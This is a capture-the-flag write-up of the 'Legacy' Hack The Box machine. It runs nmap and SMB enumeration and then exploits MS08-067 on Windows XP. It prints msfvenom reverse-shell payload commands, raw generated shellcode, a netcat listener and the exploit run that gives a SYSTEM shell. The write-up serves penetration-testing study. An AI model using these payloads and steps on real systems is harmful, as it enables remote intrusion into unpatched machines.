



<button type="button" name="button" class="btn">#enum/smb</button>
<button type="button" name="button" class="btn">CVE-2008-4250</button>
<button type="button" name="button" class="btn">WinXP SP3</button>

# Enumeration
---
## Machine Prep
I've set a shell variable of $ip to point to 10.10.10.4 to make my life a little easier:
```
ip=10.10.10.4
```

## NMAP
Fast NMAP Scan  
{: .note }
I am running this first in order to identify ALL open ports quickly - I will then run a more advanced scan, focusing on these specific ports, afterwards. I am trying to get into the habit of being more focused with my enumeration. 

```
nmap -T4 --min-rate 2000 -p- $ip                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 13:37 MST
Nmap scan report for 10.10.10.4
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 20.21 seconds
```

Full NMAP Scan  
```
nmap -sC -sV -p 135,139,445 $ip                                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 13:38 MST
Nmap scan report for 10.10.10.4
Host is up (0.060s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h57m38s, deviation: 1h24m51s, median: 4d23h57m38s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-01-28T00:36:39+02:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 005056b9b618 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.24 seconds
```
## SMB
139 and 445 should immediately stand out to us as SMB/SAMBA. We also see from the NMAP scans that this box is running Windows XP - the machine name 'Legacy' also helps firm up this assumption as well. Since we're on Windows XP, we can also assume that the machine is running SMB V1.

We're going to poke at the server a bit and see what information we can glean.

SMBMap produces no results:
```
smbmap -H $ip
[+] IP: 10.10.10.4:445  Name: 10.10.10.4   
```

A blind attempt to connect via  null sessions (one that does not require credentials) fails, but I should have known it would, as NMAP did not indicate that anonymous login was possible:
```
smbclient -L \\\\10.10.10.4 -U 'anonymous'
Password for [WORKGROUP\anonymous]:
session setup failed: NT_STATUS_LOGON_FAILURE
```

Checked vulnerabilities via nmap scripts (note that wildcard * selecting all possible matches for smb)  
{: .note }
Want to know which ones it's checking against? run 'ls /usr/share/nmap/scripts/smb' and before hitting enter, hit tab a few times to check what's available or to run specific checks.

```
nmap --script smb-vuln* $ip            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 13:47 MST
Nmap scan report for 10.10.10.4
Host is up (0.066s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx

Nmap done: 1 IP address (1 host up) scanned in 6.43 seconds
```

Typically, I'm looking for remote code execution first, especially during this first phase of enumeration. We see that we get a couple of hits. I'm sure that either will work fine, but I'm going to select CVE-2008-4250 as I've used this one in the past and know that it works well (maybe I'll hit the other one afterwards just for fun).

# Exploitation
## CVE-2008-4250 (MS08-067) Attempt #2
Searchsploit and Exploit-db scans bring up quite a few results (see Attempt #1 below), but in looking over them, they may be more complex than necessary. Performed a good ol' google search +github and started reviewing what's available there.


We'll start with [The first one there, AndyAcer's](https://github.com/andyacer/ms08_067) 

Cloned the respository and read through the .py file. This one seems a bit better than our first, we don't have to worry about byte counts or NOPs (which is why I abandoned the first, too tedious).

Here are our instructions:
```
# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

And then:
```
Usage

Usage: ms08_067_2018.py <os #> <Port #>

    ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
    ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
    ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
    ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
    ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
    ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
    ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
```
From our SMB scans, you'll recall:
```
|IDs:  CVE:CVE-2008-4250
|The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2
```

So our msfvenom command should look something like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

I created a backup of the original py file:
```
cp ms08_067_2018.py custom.py
```

Ran the msfvenom command from above, which gives me several lines that look like this:
```
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x38\xfe\xc9\x30\x83\xee\xfc\xe2\xf4\xc4\x16\x4b\x30"
"\x38\xfe\xa9\xb9\xdd\xcf\x09\x54\xb3\xae\xf9\xbb\x6a\xf2"
"\x42\x62\x2c\x75\xbb\x18\x37\x49\x83\x16\x09\x01\x65\x0c"
"\x59\x82\xcb\x1c\x18\x3f\x06\x3d\x39\x39\x2b\xc2\x6a\xa9"
"\x42\x62\x28\x75\x83\x0c\xb3\xb2\xd8\x48\xdb\xb6\xc8\xe1"
"\x69\x75\x90\x10\x39\x2d\x42\x79\x20\x1d\xf3\x79\xb3\xca"
"\x42\x31\xee\xcf\x36\x9c\xf9\x31\xc4\x31\xff\xc6\x29\x45"
"\xce\xfd\xb4\xc8\x03\x83\xed\x45\xdc\xa6\x42\x68\x1c\xff"
"\x1a\x56\xb3\xf2\x82\xbb\x60\xe2\xc8\xe3\xb3\xfa\x42\x31"
"\xe8\x77\x8d\x14\x1c\xa5\x92\x51\x61\xa4\x98\xcf\xd8\xa1"
"\x96\x6a\xb3\xec\x22\xbd\x65\x96\xfa\x02\x38\xfe\xa1\x47"
"\x4b\xcc\x96\x64\x50\xb2\xbe\x16\x3f\x01\x1c\x88\xa8\xff"
"\xc9\x30\x11\x3a\x9d\x60\x50\xd7\x49\x5b\x38\x01\x1c\x60"
"\x68\xae\x99\x70\x68\xbe\x99\x58\xd2\xf1\x16\xd0\xc7\x2b"
"\x5e\x5a\x3d\x96\xc3\x3a\x36\xf2\xa1\x32\x38\xff\x72\xb9"
"\xde\x94\xd9\x66\x6f\x96\x50\x95\x4c\x9f\x36\xe5\xbd\x3e"
"\xbd\x3c\xc7\xb0\xc1\x45\xd4\x96\x39\x85\x9a\xa8\x36\xe5"
"\x50\x9d\xa4\x54\x38\x77\x2a\x67\x6f\xa9\xf8\xc6\x52\xec"
"\x90\x66\xda\x03\xaf\xf7\x7c\xda\xf5\x31\x39\x73\x8d\x14"
"\x28\x38\xc9\x74\x6c\xae\x9f\x66\x6e\xb8\x9f\x7e\x6e\xa8"
"\x9a\x66\x50\x87\x05\x0f\xbe\x01\x1c\xb9\xd8\xb0\x9f\x76"
"\xc7\xce\xa1\x38\xbf\xe3\xa9\xcf\xed\x45\x29\x2d\x12\xf4"
"\xa1\x96\xad\x43\x54\xcf\xed\xc2\xcf\x4c\x32\x7e\x32\xd0"
"\x4d\xfb\x72\x77\x2b\x8c\xa6\x5a\x38\xad\x36\xe5";
```
Edit'd my 'custom.py' and overwrote the shellcode lines accordingly.  
Made the py executable:
```
chmod +x custom.py
```
Started a listener on my attacking machine:
```
nc -nvlp 443
```
And finally, ran it against the victim box with option 7 from above (for win xp sp3):
```
python2.7 custom.py 10.10.10.4 7 445                                                                                     130 ⨯ 1 ⚙
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (AlwaysOn NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

We see that the listener picks up on the other end and we can retrieve both user and root.txt as we're running as NT Authority.
```
listen 443                 
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

If I wanted to take it one step further I could probably have uploaded whoami.exe over to the box to properly run the command, but I don't see any need to do so right now. I've retrieved the flags and we can move on to the next box.

## CVE-2008-4250 (MS08-067) Attempt #1
{: .warning }
ABANDONED: This one was taking too much time. I decided to go back to the drawing board. I feel like I could've made it work eventually, but it wasn't worth continuing on with if there are easier methods out there. Keeping this information here for reference only.

Some searchsploit checks:


Alternatively, or additionally, we can check [Exploit Database](https://exploit-db.com) and use an advanced search to narrow things down.


I decided to start from the top in searchsploit and selected 40279. First, we'll take a look at what exactly this code is doing:
```
searchsploit -x 40279
```
Inside of the code description, we see it gives us a breakdown of the msfvenom code we'll need to generate prior to running this exploit, and it goes something like this:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```
We'll tidy that up here in a moment.

It looks like there's a buffer overflow of some sort happening here. There is mention of Windows XP SP0/SP1, so we're off to a good start there. 

I don't want the payload to be a meterpreter shell, so I update that to be windows/shell_reverse_tpc (indicating it is unstaged) and update the LHOST and LPORT accordingly:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```
{: .warning }
We can't just run this .py file against the victim and pray for the best. We need to generate MSFVENOM ouput and overwrite what is in the python script before we start attacking.   
{:info}
In this section, what I'm doing is running the msvenom script, reviewing the output, comparing with the example in the python script's details and modifying accordingly. 

After a first run and comparing with the exploit, we want the variable output to read 'shellcode' and not 'buf'. Researched how to perform this and see that the -v switch should get us where we need to go. Updated the script:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode
```


Inside of the original python script, the author points out the following:
```
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
```
This means we'll have to adjust how many \x90's there are in the first 3 or 4 lines of the python code to get it to line up with the 380 bytes payload expectation.

At this point, I'm about an hour in and perhaps am over-thinking it. I move on to researching other methods of exploitation.